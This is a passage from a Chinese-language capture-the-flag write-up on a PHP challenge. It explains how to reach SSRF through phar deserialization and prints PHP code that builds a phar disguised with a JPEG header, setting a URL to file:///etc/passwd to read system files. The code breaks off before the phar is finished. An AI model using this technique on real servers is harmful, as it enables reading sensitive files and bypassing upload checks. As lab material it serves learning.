 #### 3.题目提示phar

catchmime.php文件含有gitimage可配合phar造成反序列化

curl()可造成ssrf漏洞

#### 所以此时该题的思路就是生成phar文件，上传到服务器，ckeck mime file检查上传的文件类型，触发反序列化，覆盖Main类中的url变量，造成ssrf漏洞

生成phar文件：

```
<?php
class Main {
    public $url='file:///etc/passwd';
    public function curl($url)
    {
        $ch = curl_init();
        curl_setopt($ch, CURLOPT_URL, $url);
        curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);
        $output = curl_exec($ch);
        curl_close($ch);
        return $output;
    }
}

$jpeg_header_size =
    "\xff\xd8\xff\xe0\x00\x10\x4a\x46\x49\x46\x00\x01\x01\x01\x00\x48\x00\x48\x00\x00\xff\xfe\x00\x13".
    "\x43\x72\x65\x61\x74\x65\x64\x20\x77\x69\x74\x68\x20\x47\x49\x4d\x50\xff\xdb\x00\x43\x00\x03\x02".
    "\x02\x03\x02\x02\x03\x03\x03\x03\x04\x03\x03\x04\x05\x08\x05\x05\x04\x04\x05\x0a\x07\x07\x06\x08\x0c\x0a\x0c\x0c\x0b\x0a\x0b\x0b\x0d\x0e\x12\x10\x0d\x0e\x11\x0e\x0b\x0b\x10\x16\x10\x11\x13\x14\x15\x15".
    "\x15\x0c\x0f\x17\x18\x16\x14\x18\x12\x14\x15\x14\xff\xdb\x00\x43\x01\x03\x04\x04\x05\x04\x05\x09\x05\x05\x09\x14\x0d\x0b\x0d\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14".
    "\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\xff\xc2\x00\x11\x08\x00\x0a\x00\x0a\x03\x01\x11\x00\x02\x11\x01\x03\x11\x01".
    "\xff\xc4\x00\x15\x00\x01\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x08\xff\xc4\x00\x14\x01\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xff\xda\x00\x0c\x03".
    "\x01\x00\x02\x10\x03\x10\x00\x00\x01\x95\x00\x07\xff\xc4\x00\x14\x10\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x20\xff\xda\x00\x08\x01\x01\x00\x01\x05\x02\x1f\xff\xc4\x00\x14\x11".
    "\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x20\xff\xda\x00\x08\x01\x03\x01\x01\x3f\x01\x1f\xff\xc4\x00\x14\x11\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x20".
    "\xff\xda\x00\x08\x01\x02\x01\x01\x3f\x01\x1f\xff\xc4\x00\x14\x10\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x20\xff\xda\x00\x08\x01\x01\x00\x06\x3f\x02\x1f\xff\xc4\x00\x14\x10\x01".
    "\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x20\xff\xda\x00\x08\x01\x01\x00\x01\x3f\x21\x1f\xff\xda\x00\x0c\x03\x01\x00\x02\x00\x03\x00\x00\x00\x10\x92\x4f\xff\xc4\x00\x14\x11\x01\x00".
    "\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x20\xff\xda\x00\x08\x01\x03\x01\x01\x3f\x10\x1f\xff\xc4\x00\x14\x11\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x20\xff\xda".
    "\x00\x08\x01\x02\x01\x01\x3f\x10\x1f\xff\xc4\x00\x14\x10\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x20\xff\xda\x00\x08\x01\x01\x00\x01\x3f\x10\x1f\xff\xd9";

$phar = new Phar("phar3.phar");
$phar->startBuffering();
$phar->addFromString("test.txt","test");
$phar->setStub($jpeg_header_size." __HALT_COMPILER(); ?>");
```